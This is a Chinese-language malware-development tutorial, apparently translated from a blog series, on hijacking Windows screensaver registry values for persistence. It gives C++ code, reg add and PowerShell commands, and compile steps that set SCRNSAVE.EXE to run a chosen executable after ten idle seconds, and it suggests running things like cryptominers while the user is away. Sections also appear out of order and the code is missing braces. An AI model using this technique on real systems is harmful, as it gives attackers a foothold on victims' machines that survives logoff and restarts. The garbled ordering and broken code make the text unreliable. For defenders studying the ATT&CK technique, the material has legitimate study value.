










\newpage
\subsection{恶意软件开发：持久化（第 2 部分）——屏幕保护程序劫持（C++ 示例）}

{width="80%"}

这篇文章是关于 Windows 恶意软件持久化技术与技巧系列文章的第二部分。

今天我将写关于自我研究另一个持久化技巧的结果：滥用屏幕保护程序。

### 屏幕保护程序

Windows 的这个特性被威胁行为者滥用于实现持久化，这一点是众所周知的。

屏幕保护程序默认是带 `.scr` 扩展名的 PE 文件，其设置存储在以下注册表项中：

{width="80%"}

设置为 1 表示启用屏幕保护程序。

——设置屏幕保护程序执行前的用户不活动超时时间。

我们来看一个实战示例。

假设我们有一个来自上一部分的「恶意软件」`hack.cpp`：

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

我们来编译它：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

并把它保存到文件夹 `Z:\2022-04-26-malware-pers-2\`：

{width="80%"}

然后，我们来创建一个脚本 `pers.cpp`，它会在用户不活动 10 秒时创建注册表项来执行我们的程序 `hack.exe`：

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
  RegQueryValueExA(hKey, regVal, NULL, NULL, 
  (LPBYTE)value, &size);
  if (ret == ERROR_SUCCESS) {
  if (strcmp(value, compare) == 0) {
  return TRUE;
  }
  }
  }
  return FALSE;

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry keys
  RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
  REG_SZ, (unsigned char*)aact, strlen(aact));
  RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
  REG_SZ, (unsigned char*)ts, strlen(ts));
  RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
  REG_SZ, (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }
  return 0;

```

我们只是为超时和应用路径添加新的注册表项。

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

或者用 powershell 命令：

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

但因为我喜欢写代码，所以我想展示如何用几行代码做到这一点。

### 演示

我们来编译我们的 `pers.cpp` 脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

为了实验的纯粹性，首先在受害机器上检查注册表项，如果存在就删除它们：

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

{width="80%"}

{width="80%"}

然后，运行我们的 `pers.exe` 脚本并再次检查：

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

{width="80%"}

现在，我们来检查实际效果。注销并再次登录，然后等待 10 秒，或者只是不活动 10 秒：

{width="80%"}

Pwn！一切都完美工作了 :)

实验结束后，删除这些项：

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

{width="80%"}

### 结论

你也可以阻止 `.scr` 文件从非标准位置被执行。

This trick in MITRE ATT&CK

屏幕保护程序是在可配置的用户不活动时间之后执行的程序。

——设置要运行的应用路径。

### 实战示例

如你所见，逻辑是最简单的一种。

注册表项也可以从 cmd 终端添加：

我们可以看到，新项如预期那样被添加了。

这个持久化技巧的问题在于，当用户回来且系统不处于空闲状态时，会话就被终止。

不过，红队可以在用户不在的时候执行他们的操作（比如类似加密货币挖矿的程序）。

如果屏幕保护程序被组策略禁用，这个方法就无法用于持久化。
